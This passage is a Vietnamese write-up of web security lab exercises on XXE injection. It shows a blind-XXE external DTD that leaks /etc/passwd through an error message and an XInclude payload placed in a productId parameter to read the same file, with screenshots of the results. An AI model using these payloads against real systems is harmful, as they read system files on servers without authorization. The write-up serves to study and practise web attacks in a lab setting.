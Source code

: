 Check trong burp collabrator ở đây em dùng sever luôn
![image](https://hackmd.io/_uploads/Bk9Qbc3ha.png)

- và submit giá trị: `1371734627ca`
- ![image](https://hackmd.io/_uploads/r1Lr-chh6.png)
- và đã hoàn thành bài lab.


## [Exploiting blind XXE to retrieve data via error messages](https://)

- Bài này trong có vẻ khá giống với bài ở trên nhưng mà sever sẽ thông báo trực tiếp lỗi nằm ở phần nào thay vì parse XML error như các bài trên.
- Bây giờ chúng ta sẽ tạo 1 file dtd ở sever của mình :ab: 

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

- Phân tích một chút là dtd này chứa 2 entity 1 là file sẽ load nội dung của etc/passwd
- 2 là eval lại chứa thêm 1 param entity sẽ load file gán thêm cả giá trị của %file nữa.
- Như chúng ta biết khi mà load sai 1 file thì sẽ báo sai tên file như trường hợp này cũng vậy
- Triển khai:
- ![image](https://hackmd.io/_uploads/Hkhx5q23T.png)

- Sau đó gọi đến dtd
- ![image](https://hackmd.io/_uploads/Sk1Ji9nh6.png)

- em nhận được nội dung file etc/passwd và bài lab được giải quyết
![image](https://hackmd.io/_uploads/rJhlic336.png)


## [Exploiting XInclude to retrieve files](https://)
- Ở bài lab này, body của POST request Check stock không phải một XML nữa mà chỉ chứa các tham số: productId và storeId.
- ![image](https://hackmd.io/_uploads/Bk7t35nnp.png)
- Như vậy, ta không thể thực hiện cách tấn công thông thường như trên nữa vì không thể control toàn bộ XML được xử lí. Do đó, ta sẽ sử dụng XInclude vào bất kì trường nào để include payload vào.

- Để tấn công thành công, ta cần reference XInclude namespace và đường dẫn file cần đọc, ở đây là /etc/passwd.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

- Chèn payload trên vào trường productId, ta thấy kết quả trả về nội dung file /etc/passwd thành công.
- ![image](https://hackmd.io/_uploads/rkt-Rcnha.png)
![image](https://hackmd.io/_uploads/Bykf0c336.png)
